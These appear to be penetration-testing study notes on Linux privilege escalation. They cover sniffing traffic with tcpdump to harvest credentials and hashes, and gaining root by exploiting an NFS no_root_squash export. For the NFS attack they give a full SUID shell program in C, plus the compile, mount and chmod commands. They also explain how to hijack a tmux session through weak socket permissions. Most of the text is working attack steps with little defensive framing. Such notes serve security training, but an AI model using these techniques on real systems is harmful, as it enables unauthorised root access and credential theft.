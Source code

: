 
### **Passive Traffic Capture**

- If _tcpdump_ is installed, unprivileged users can **sniff network traffic**.
- Tools: _net-creds_, _PCredz_ can analyze captured data.
- Potential to extract:
    - _Cleartext credentials_ from HTTP, FTP, Telnet, POP, IMAP, SMTP.
    - _Net-NTLMv2_, _Kerberos_, or _SMBv2_ hashes for offline cracking.
    - _Credit card info_, _SNMP community strings_.

---

### **Weak NFS Privileges**

- _NFS_ uses **TCP/UDP port 2049** for sharing directories.
- Command `showmount -e <host>` reveals exported directories.
```bash
Export list:
/tmp             *
/var/nfs/general *
```

- NFS Export Options:
    - _root_squash_: maps remote root to `nfsnobody` (safer).
    - _no_root_squash_: remote root keeps root access (dangerous).

#### **Privilege Escalation via SUID Binary**

1. **Create a SUID binary:**
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
  setuid(0); setgid(0); system("/bin/bash");
}
```

2. Compile & mount share:
```bash
gcc shell.c -o shell
sudo mount -t nfs <ip>:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
```

3. Execute on target:
```bash
./shell
# Results in root shell
```

---

### **Hijacking Tmux Sessions**

- _tmux_ is a terminal multiplexer that allows **session persistence**.
- If tmux socket is _world-readable_ or accessible by a group, it can be hijacked.

#### **Detection & Exploitation Steps**

1. **Find tmux processes:**
```bash
ps aux | grep tmux
```

2.  **Inspect socket permissions:**
```bash
ls -la /shareds
# Example: srw-rw---- 1 root devs 0 ...
```

3. Check current user's group:
```bash
id
# Must be in group 'devs' to attach
```

4. **Attach to tmux session:**
```bash
tmux -S /shareds
# Access root shell from attached session
```

